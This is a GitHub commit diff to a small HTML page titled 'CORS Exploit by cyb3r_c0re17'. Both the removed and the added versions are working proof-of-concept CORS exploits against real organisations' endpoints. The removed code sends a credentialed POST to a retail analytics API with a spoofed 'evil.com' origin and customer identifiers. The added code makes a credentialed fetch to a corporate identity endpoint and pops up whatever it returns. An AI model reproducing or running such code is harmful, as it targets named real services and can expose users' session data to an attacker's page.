

Before and after one commit to AnonymousUser-sudo/Cors, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-928 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -2,44 +2,67 @@
 <html lang="en">
 <head>
     <meta charset="UTF-8">
-    <meta http-equiv="X-UA-Compatible" content="IE=edge">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>CORS Exploit PoC</title>
+    <title>CORS Exploit by cyb3r_c0re17</title>
+    <style>
+        body {
+            font-family: Arial, sans-serif;
+            background-color: #f4f4f4;
+            text-align: center;
+            padding-top: 50px;
+        }
+        h1 {
+            color: #333;
+        }
+        button {
+            padding: 15px 30px;
+            font-size: 16px;
+            color: #fff;
+            background-color: #007BFF;
+            border: none;
+            border-radius: 5px;
+            cursor: pointer;
+            margin-top: 20px;
+        }
+        button:hover {
+            background-color: #0056b3;
+        }
+    </style>
+</head>
+<body>
+
+    <h1>CORS Exploit by cyb3r_c0re17</h1>
+    <p>Click the button below to exploit CORS vulnerability.</p>
+
+    <!-- Exploit Button -->
+    <button onclick="exploitCORS()">Exploit</button>
+
     <script>
-        function exploit() {
-            fetch('https://exponea-api.alshaya.com/bulk', {
-                method: 'POST',
-                credentials: 'include',
-                headers: {
-                    'Content-Type': 'text/plain;charset=UTF-8',
-                    'Origin': 'https://evil.com'
-                },
-                body: JSON.stringify({
-                    "sdk": "js-client",
-                    "sdk_version": "v3.27.0",
-                    "sdk_snippet_version": "v1.0.0",
-                    "commands": [{
-                        "name": "system/ids",
-                        "data": {
-                            "project_id": "78e50322-2007-11ea-9428-62206df291c3",
-                            "customer": {
-                                "google_analytics": "1679285112.1728728817"
-                            },
-                            "expires": 1823336817
-                        }
-                    }]
-                })
+        // Function to trigger CORS exploit
+        function exploitCORS() {
+            // Vulnerable endpoint (replace this with the actual endpoint if necessary)
+            const url = 'https://login-oie.identity.kkr.com/.well-known/openid-configuration';
+
+            // Perform the CORS request
+            fetch(url, {
+                method: 'GET',
+                credentials: 'include' // Include credentials (cookies, tokens)
             })
-            .then(response => response.json())
+            .then(response => {
+                if (!response.ok) {
+                    throw new Error('Network response was not ok');
+                }
+                return response.json(); // Parse JSON response
+            })
             .then(data => {
-                console.log('Exploit successful:', data);
+                // Display the CORS data in a popup
+                alert('CORS Data: ' + JSON.stringify(data, null, 2));
             })
-            .catch(error => console.error('Error:', error));
+            .catch(error => {
+                alert('CORS Exploit Failed: ' + error.message);
+            });
         }
     </script>
-</head>
-<body>
-    <h1>CORS Exploit Demonstration</h1>
-    <button onclick="exploit()">Run Exploit</button>
+
 </body>
 </html>
```
